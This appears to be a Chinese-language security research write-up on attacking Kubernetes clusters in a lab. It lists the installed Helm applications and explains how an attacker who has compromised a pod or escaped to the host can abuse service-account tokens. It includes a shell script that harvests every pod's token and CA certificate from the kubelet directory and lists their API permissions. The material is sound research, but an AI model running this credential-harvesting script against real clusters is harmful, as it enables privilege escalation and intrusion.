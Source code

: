 
### 研究环境中出现的应用程序

在本次搭建的研究环境中，安装了下面这些应用程序。

| NAME | NAMESPACE | CHART | APP VERSION |
| --- | --- | --- | --- |
| argo | default | argo-cd-5.27.1 | V2.6.6 |
| argo-workflows | kube-system | argo-workflows-0.22.14 | v3.4.5 |
| cert-manager | cert-manager | cert-manage-v1.11.1 | vl.11.1 |
| fluentd-bitnami | default | fluentd-5.6.5 | 1.16.1 |
| ingress-nginx | default | ingress-nginx-4.6.0 | 1.7.0 |
| jenkins | default | jenkins-4.3.22 | 2.387.2 |
| kube-prometheus-stack | default | kube-prometheus-stack-45.21.0 | v0.63.0 |
| kubemetes-dashboard | default | kubemetes-dashboard-6.0.6 | v2.7.0 |
| mysql | default | mysql-9.6.0 | 8.0.32 |
| photoshow | default | photoshow-1.0.1 | 48aabb98 |
| redis | default | redis-17.8.5 | 7.0.9 |

每个请求服务账户的应用程序，都经过了枚举和测试，查看该应用程序所要求的那些权限，能否用来渗透k8s集群。

### 对Host的枚举

k8s环境可以通过多种方式实现枚举。

（1）如果攻击者入侵了单个pod，就可以在pod中找这个路径`/var/run/secrets`，以便访问k8s API并通过身份验证。

（2）攻击者执行"容器逃逸"(container escape)并获得对host的访问。

此时，攻击者可以执行简单的shell脚本，如下，kubelet-enum.sh

```plain
for mydir in $(find /var/lib/kubelet/pods -name namespace -exec dirname {} \;); do
  echo "Checking $mydir"
  # 设置环境变量
  export cert=$mydir/ca.crt
  export token=$mydir/token
  export namespace=$mydir/namespace
  export apiserver=$(netstat -n | grep 6443 | awk '{ print $5 }' | uniq)
  echo "$cert $namespace $token $apiserver"
  kubectl --certificate-authority=$cert --token=$(cat $token) --namespace=$(cat $namespace) --server=https://$apiserver auth can-i --list
done
```

脚本的作用是：

枚举被攻击者控制的主机上的每个pod拥有的"权限"。
